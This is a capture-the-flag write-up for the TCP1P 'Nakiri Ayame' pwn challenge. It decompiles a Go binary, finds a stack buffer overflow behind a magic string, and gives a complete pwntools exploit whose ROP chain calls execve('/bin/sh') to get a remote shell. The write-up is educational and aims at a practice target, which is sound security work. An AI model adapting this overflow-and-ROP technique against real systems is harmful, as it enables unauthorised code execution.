







## Nakiri Ayame 🩸

```
Author: HyggeHalcyon

Ayame cute noises (✿╹◡╹) https://www.youtube.com/watch?v=XsdQguLgvFc https://www.youtube.com/watch?v=NPMhb_mIIhU

nc ctf.tcp1p.com 6666
```
**Attachment**: [ojou](release/ojou)

We were given an ELF binary. Here's some information about this binary.
  


Let's take a look what does this program do
<details close><summary>Decompiled Binary</summary>
    
```c
void __cdecl main_main()
{
  int v0; // r14
  __int128 v1; // xmm15
  int v2; // rax
  int v3; // rax
  char v4; // al
  int v5; // rbx
  int v6; // rax
  int v7; // rax
  int v8; // rdx
  int *v9; // r11
  int v10; // rbx
  int v11; // rax
  int v12; // rax
  int v13; // rdx
  int *v14; // r11
  bufio_Scanner_0 *v15; // [rsp-36h] [rbp-1B8h]
  __int64 v16; // [rsp-36h] [rbp-1B8h]
  __int64 v17; // [rsp-36h] [rbp-1B8h]
  bool v18; // [rsp-36h] [rbp-1B8h]
  string v19; // [rsp-36h] [rbp-1B8h]
  uintptr v20; // [rsp-36h] [rbp-1B8h]
  _BYTE v21[64]; // [rsp-36h] [rbp-1B8h] OVERLAPPED
  uintptr v22; // [rsp-36h] [rbp-1B8h]
  string v23; // [rsp-36h] [rbp-1B8h]
  void *v24; // [rsp-36h] [rbp-1B8h]
  __int64 v25; // [rsp-36h] [rbp-1B8h]
  io_Reader_0 v26; // [rsp-2Eh] [rbp-1B0h]
  error_0 v27; // [rsp-2Eh] [rbp-1B0h]
  error_0 v28; // [rsp-2Eh] [rbp-1B0h]
  bufio_Scanner_0 *v29; // [rsp-2Eh] [rbp-1B0h]
  __int64 v30; // [rsp-2Eh] [rbp-1B0h]
  __int64 v31; // [rsp-2Eh] [rbp-1B0h]
  string v32; // [rsp-2Eh] [rbp-1B0h]
  error_0 v33; // [rsp-2Eh] [rbp-1B0h]
  bufio_Scanner_0 *v34; // [rsp-26h] [rbp-1A8h]
  uintptr v35; // [rsp-26h] [rbp-1A8h]
  uintptr v36; // [rsp-26h] [rbp-1A8h]
  runtime_tmpBuf *v37; // [rsp-26h] [rbp-1A8h]
  string v38; // [rsp-1Eh] [rbp-1A0h]
  string v39; // [rsp-1Eh] [rbp-1A0h]
  __int64 v40; // [rsp-1Eh] [rbp-1A0h]
  string v41; // [rsp-1Eh] [rbp-1A0h]
  __uint8 v42; // [rsp-16h] [rbp-198h]
  uint8 *v43; // [rsp-16h] [rbp-198h]
  __interface_{} v44; // [rsp-Eh] [rbp-190h]
  __interface_{} v45; // [rsp-Eh] [rbp-190h]
  __interface_{} v46; // [rsp-Eh] [rbp-190h]
  int v47[2]; // [rsp+22h] [rbp-160h] BYREF
  char v48[10]; // [rsp+38h] [rbp-14Ah] BYREF
  int v49; // [rsp+42h] [rbp-140h]
  int v50[2]; // [rsp+4Ah] [rbp-138h] BYREF
  __int128 *v51; // [rsp+5Ah] [rbp-128h]
  int v52; // [rsp+62h] [rbp-120h]
  __int128 *v53; // [rsp+6Ah] [rbp-118h]
  __int128 *v54; // [rsp+72h] [rbp-110h]
  __int128 *v55; // [rsp+7Ah] [rbp-108h]
  __int128 *v56; // [rsp+82h] [rbp-100h]
  int *v57; // [rsp+8Ah] [rbp-F8h]
  int v58; // [rsp+92h] [rbp-F0h]
  int v59; // [rsp+9Ah] [rbp-E8h]
  __int128 v60; // [rsp+A2h] [rbp-E0h] BYREF
  int v61; // [rsp+B2h] [rbp-D0h]
  int v62; // [rsp+BAh] [rbp-C8h]
  int v63; // [rsp+C2h] [rbp-C0h]
  int v64; // [rsp+CAh] [rbp-B8h]
  char *v65; // [rsp+D2h] [rbp-B0h]
  int v66; // [rsp+DAh] [rbp-A8h]
  int v67; // [rsp+E2h] [rbp-A0h]
  int *v68; // [rsp+EAh] [rbp-98h]
  int v69; // [rsp+F2h] [rbp-90h]
  int v70; // [rsp+FAh] [rbp-88h]
  __int128 *v71; // [rsp+102h] [rbp-80h]
  int v72; // [rsp+10Ah] [rbp-78h]
  int v73; // [rsp+112h] [rbp-70h]
  __int128 *v74; // [rsp+11Ah] [rbp-68h]
  int v75; // [rsp+122h] [rbp-60h]
  int v76; // [rsp+12Ah] [rbp-58h]
  __int128 *v77; // [rsp+132h] [rbp-50h]
  int v78; // [rsp+13Ah] [rbp-48h]
  int v79; // [rsp+142h] [rbp-40h]
  __int128 *v80; // [rsp+14Ah] [rbp-38h]
  int v81; // [rsp+152h] [rbp-30h]
  int v82; // [rsp+15Ah] [rbp-28h]
  __int128 *v83; // [rsp+162h] [rbp-20h]
  int v84; // [rsp+16Ah] [rbp-18h]
  int v85; // [rsp+172h] [rbp-10h]

  if ( (unsigned int)v50 <= *(_QWORD *)(v0 + 16LL) )
    runtime_morestack_noctxt();
  memset(v48, 0LL, sizeof(v48));
  v65 = v48;
  v66 = 10LL;
  v67 = 10LL;
  bufio_NewScanner(v15, v26);
  v49 = v2;
  fmt_Printf(v16, v27, v38, v44);
  fmt_Printf(v17, v28, v39, v45);
  bufio___Scanner__Scan(v18, v29);
  bufio___Scanner__Text(v19, v34);
  v58 = v3;
  v59 = 3LL;
  *(_QWORD *)&v21[56LL] = v65;
  v47[1LL] = v3;
  main_memcpy(v20, v30, v35);
  v57 = v47;
  v47[0LL] = '3< !uojO';
  v68 = v47;
  v69 = 8LL;
  v70 = 8LL;
  main_equal(v21[0LL], *(__uint8 *)&v21[8LL], v42);
  v21[55LL] = v4;
  if ( v4 )
  {
    v56 = &v60;
    *(_QWORD *)&v60 = &unk_485D00;
    *((_QWORD *)&v60 + 1LL) = &off_4B6A90;
    v83 = &v60;
    v84 = 1LL;
    v85 = 1LL;
    fmt_Println(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(__interface_{} *)&v21[24LL]);
    v50[0LL] = (int)&main_binsh;
    v55 = &v60;
    *(_QWORD *)&v60 = "\b";
    *((_QWORD *)&v60 + 1LL) = &main_binsh;
    v80 = &v60;
    v81 = 1LL;
    v82 = 1LL;
    fmt_Printf(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(string *)&v21[24LL], *(__interface_{} *)&v21[40LL]);
    main_memcpy(v22, v31, v36);
    v60 = v1;
    v51 = &v60;
    v5 = (int)v65;
    runtime_slicebytetostring(v23, v37, v40, v43);
    v61 = v6;
    v62 = v5;
    runtime_convTstring(v24, v32);
    v50[1LL] = v7;
    v8 = (int)v51;
    *(_QWORD *)v51 = &unk_485D00;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
    {
      runtime_gcWriteBarrier2();
      *v9 = v7;
      v9[1LL] = *(_QWORD *)(v8 + 8LL);
    }
    *(_QWORD *)(v8 + 8LL) = v7;
    v71 = v51;
    v72 = 1LL;
    v73 = 1LL;
    fmt_Printf(v25, v33, v41, v46);
  }
  else
  {
    v54 = &v60;
    *(_QWORD *)&v60 = &unk_485D00;
    *((_QWORD *)&v60 + 1LL) = &off_4B6AA0;
    v77 = &v60;
    v78 = 1LL;
    v79 = 1LL;
    fmt_Println(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(__interface_{} *)&v21[24LL]);
    v60 = v1;
    v53 = &v60;
    v10 = (int)v65;
    runtime_slicebytetostring(
      *(string *)v21,
      *(runtime_tmpBuf **)&v21[16LL],
      *(__int64 *)&v21[24LL],
      *(uint8 **)&v21[32LL]);
    v63 = v11;
    v64 = v10;
    runtime_convTstring(*(void **)v21, *(string *)&v21[8LL]);
    v52 = v12;
    v13 = (int)v53;
    *(_QWORD *)v53 = &unk_485D00;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
    {
      runtime_gcWriteBarrier2();
      *v14 = v12;
      v14[1LL] = *(_QWORD *)(v13 + 8LL);
    }
    *(_QWORD *)(v13 + 8LL) = v12;
    v74 = v53;
    v75 = 1LL;
    v76 = 1LL;
    fmt_Printf(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(string *)&v21[24LL], *(__interface_{} *)&v21[40LL]);
  }
}
```
    
</details>

(Somehow, I can't run this binary on my Ubuntu environment. So, I worked on it with my Parrot VM.)

Based on the decompiled code, the program appears to have two branches. To further understand the program, I decided to conduct dynamic analysis. Here, I set a breakpoint when the program calls the function `main.equal()`. I entered the string "Vaints" as input, and when the program was about to call the function main.equal(), I saw the string "Ojou! \<3".
  

From this, I assumed that this string was the "correct" one and tried inputting it into the program. As expected, this string produced a different result.
  

Then, I thought about exploiting a buffer overflow. Here, I prepared a De Bruijn sequence using cyclic. I placed this pattern right after the "Ojou! \<3" string. As expected, there was indeed a Buffer Overflow vulnerability, even though there was an error in the payload entered.
  

After that, I looked deeper into which instruction was causing the program to crash and terminate. Until I found out, the program crashed when the program called the `runtime_slicebytetostring()` function at 0x47ddc2 address. 
  

As can be seen, the previously entered cyclic pattern is used as the 4th argument to call the `runtime_slicebytetostring()` function. After that I modify my payload to change the 4th argument to 0 (NULL).
```py
p = b""
p += b"Ojou! <3"
p += cyclic(700).replace(p64(0x61706261616f6261), p64(0x0))
```

After rerun the program, the program successfully called the `runtime_slicebytetostring()` function. Once again, the program crashed. But this time, the program crashed because we managed to overwrite the saved RIP of the main function with the cyclic pattern that I've inputed before.
  

The offset to overwrite the saved RIP was 330 byte (8 byte the length of "Ojou! \<3" + 322 byte from the cyclic). After that, I searched for gadgets that I could use to call a shell. Here are some of the gadgets I used to obtain a shell:
```python
POP_RBX = 0x0000000000404541 # : pop rbx ; ret
POP_RDX = 0x0000000000479d7a # : pop rdx ; ret
POP_RAX_RBP = 0x00000000004723ca # : pop rax ; pop rbp ; ret
POP_RDI_LOAD_PTR_RAX = 0x00000000004726a4 # : pop rdi ; add al, byte ptr [rax] ; mov ebx, 0xb ; ret
MOV_QWORDPTR_RAX0x18_RBX = 0x0000000000415312 # : mov qword ptr [rax + 0x18], rbx ; ret
SYSCALL = 0x000000000040316c # : syscall
```

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/ojou"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 6666
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + f"""
            # set follow-fork-mode child
            file {TARGET}
            # b *0x47dae0+0x2b0
            # b *0x47dae0+738
            # b *0x47dae0+909
            b *0x47dae0+0x2e2
            b *0x47dae0+0x16f
            """
            gdb.attach(io, gdbscript=cmd)

    MAIN_ADDRESS = 0x47dae0
    # === Debug using this payload: b"Ojou! <3"+cyclic(512)
    RCX_OFFSET = cyclic_find(0x616f6261)
    RSI_OFFSET = cyclic_find(0x616d6261)
    # === Gadget
    BSS_ADDRESS = 0x524100
    POP_RBX = 0x0000000000404541 # : pop rbx ; ret
    POP_RDX = 0x0000000000479d7a # : pop rdx ; ret
    POP_RAX_RBP = 0x00000000004723ca # : pop rax ; pop rbp ; ret
    POP_RDI_LOAD_PTR_RAX = 0x00000000004726a4 # : pop rdi ; add al, byte ptr [rax] ; mov ebx, 0xb ; ret
    MOV_QWORDPTR_RAX0x18_RBX = 0x0000000000415312 # : mov qword ptr [rax + 0x18], rbx ; ret
    SYSCALL = 0x000000000040316c # : syscall

    RIP_OFFSET = cyclic_find(0x61676461)
    p = b""
    p += b"Ojou! <3"
    p += cyclic(RIP_OFFSET).replace(p64(0x61706261616f6261), p64(0x0))
    p += p64(POP_RAX_RBP)
    p += p64(BSS_ADDRESS-0x18)
    p += p64(0xdeadbeef)
    p += p64(POP_RBX)
    p += p64(u64(b"/bin/sh\x00"))
    p += p64(MOV_QWORDPTR_RAX0x18_RBX)

    p += p64(POP_RDI_LOAD_PTR_RAX) # rax is pointing to valid address
    p += p64(BSS_ADDRESS)

    p += p64(POP_RDX)
    p += p64(0)

    p += p64(POP_RAX_RBP)
    p += p64(0x3b)
    p += p64(0xdeadbeef)
    p += p64(SYSCALL) # sys_execve('/bin/sh', NULL, NULL)

    io.sendlineafter(b">", p)

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

  
    
**Flag:** TCP1P{Ojou_sama_no_giggles_cuteness_overload_kawayoooooo!}
